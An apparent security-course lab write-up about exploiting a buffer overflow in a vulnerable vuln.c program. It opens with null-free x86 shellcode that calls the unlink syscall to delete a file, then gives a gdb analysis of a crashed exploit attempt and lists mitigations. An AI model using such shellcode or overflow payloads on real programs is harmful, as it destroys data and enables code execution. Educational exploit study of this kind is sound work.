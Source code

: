 # Run file_del.asm in vuln.c program with buffer overflow

Editing 'file_del.asm' to prevent \x00 string in shellcode:

```
section .text
global _start
_start:
    jmp short ender
starter:
    xor eax, eax
    add al, 8
    add al, 2
    mov ebx, _filename
    int 0x80
_exit:
    xor eax, eax
    add al, 1
    int 0x80

ender:
    call starter
_filename db 'dummyfile'
```


## Lab 2 Script (lab2.sh) - Detailed Error Analysis

The `lab2.sh` script demonstrates a buffer overflow vulnerability in the `vuln` program. Here's a detailed breakdown of the error and its implications:

1. Segmentation Fault:
   ```
   Program received signal SIGSEGV, Segmentation fault.
   0x00000000 in ?? ()
   ```
   This indicates that the program attempted to access memory at address 0x00000000, which is invalid and causes a crash.

2. Register State at Crash:
   ```
   eax            0x0                 0
   ecx            0xffff00bf          0xffff00bf
   edx            0xffffd71b          0xffffd71b
   ebx            0x0                 0
   esp            0xffff00bf          0xffff00bf
   ebp            0x0                 0x0
   esi            0xf7fc9000          0xf7fc9000
   edi            0xf7fc9000          0xf7fc9000
   eip            0x0                 0x0
   eflags         0x10286             [ PF SF IF RF ]
   ```
   Critical observations:
   - EIP (Instruction Pointer) is 0x0, causing the segmentation fault.
   - ESP (Stack Pointer) and EBP (Base Pointer) have been overwritten.
   - Other registers (EAX, EBX) are zeroed out.

3. Stack Examination:
   ```
   (gdb) x/32xw $esp
   0xffff00bf:     0x00000000      0x00000000      0x00000000      0x00000000
   0xffff00cf:     0x00000000      0x00000000      0x00000000      0x00000000
   0xffff00df:     0x00000000      0x00000000      0x00000000      0x00000000
   0xffff00ef:     0x00000000      0x00000000      0x00000000      0x00000000
   0xffff00ff:     0x00000000      0x00000000      0x00000000      0x00000000
   0xffff010f:     0x00000000      0x00000000      0x00000000      0x00000000
   0xffff011f:     0x00000000      0x00000000      0x00000000      0x00000000
   0xffff012f:     0x00000000      0x00000000      0x00000000      0x00000000
   ```
   The stack has been completely overwritten with null bytes (0x00000000).

4. Buffer Overflow Analysis:
   - The original buffer in `vuln.c` was likely smaller than the input provided.
   - The overflow has overwritten the stack, including the return address.
   - The return address (stored in EIP) has been set to 0x0, an invalid address.
   - When the function attempts to return, it tries to execute code at address 0x0, causing the segmentation fault.

5. Exploitation Implications:
   - This vulnerability allows an attacker to control the program's execution flow.
   - By carefully crafting the input, an attacker could potentially execute arbitrary code.
   - In this case, the exploit overwrote critical memory but didn't redirect to shellcode.

6. Security Implications:
   - Demonstrates the danger of using unsafe functions like `strcpy()` without bounds checking.
   - Shows how easily stack-based buffer overflows can corrupt program state.
   - Highlights the importance of stack protection mechanisms and safe coding practices.

7. Debugging Challenges:
   - The complete overwrite of the stack with nulls makes it difficult to analyze the exact payload structure.
   - No clear shellcode is visible in the memory dump, suggesting the exploit might need refinement.

8. Potential Mitigations:
   - Use of stack canaries to detect stack corruption.
   - Implementation of Address Space Layout Randomization (ASLR).
   - Proper bounds checking in the vulnerable function.
   - Using safer alternatives to `strcpy()`, such as `strncpy()` with proper length checks.

This detailed error analysis reveals the successful triggering of a buffer overflow vulnerability, resulting in a complete corruption of the stack and program crash. It underscores the critical nature of such vulnerabilities and the importance of proper security measures in software development.









